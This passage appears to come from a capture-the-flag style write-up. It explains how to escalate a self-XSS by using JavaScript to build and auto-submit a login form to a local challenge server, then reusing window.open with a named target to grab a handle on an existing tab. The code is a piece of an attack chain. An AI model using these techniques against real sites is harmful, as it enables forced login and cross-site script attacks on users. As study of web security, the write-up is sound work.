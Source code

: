Thankfully, both of these are relatively easy to solve. I had actually
pre-emptively solved the first problem, figuring I would need it to trigger the
self-XSS. But to give credit where it's due, the aforementioned writeup helped
me solve the second problem.

The first problem can be solved by looking at the
website's front-end, specifically the login view. Instead of using `fetch` or
`XMLHttpRequest`, we can create a form with the [action attribute](https://developer.mozilla.org/en-US/docs/Web/HTML/Element/form#attr-action)
set to the **full** login URL. We can programmatically create and submit the
form using:
```javascript
//Settings
const username = 'aaaa';
const password = 'bbbb';

//Create the form
const form = document.createElement('form');
form.action = 'http://0.0.0.0:8080/login';
form.method = 'POST';
form.target = '_blank';

const usernameInput = document.createElement('input');
usernameInput.type = 'text';
usernameInput.name = 'username';
usernameInput.value = username;
form.appendChild(usernameInput);

const passwordInput = document.createElement('input');
passwordInput.type = 'password';
passwordInput.name = 'password';
passwordInput.value = password;
form.appendChild(passwordInput);

const submit = document.createElement('input');
submit.type = 'submit';
form.appendChild(submit);

//Add to the document
document.body.appendChild(form);

//Submit
submit.click();
```

The second problem can be solved by examining [`window.open`](https://developer.mozilla.org/en-US/docs/Web/API/Window/open).
You see, if you open anything with the target parameter set to a specific value,
you can obtain a reference to that same tab/window by "opening" the same
tab/window again, except with an empty url. For example:

```javascript
//Open a new tab/window, without saving the reference
window.open('https://example.com', 'someExampleWebsite');

//Get the reference to the existing tab/window
const reference = window.open('', 'someExampleWebsite');
```
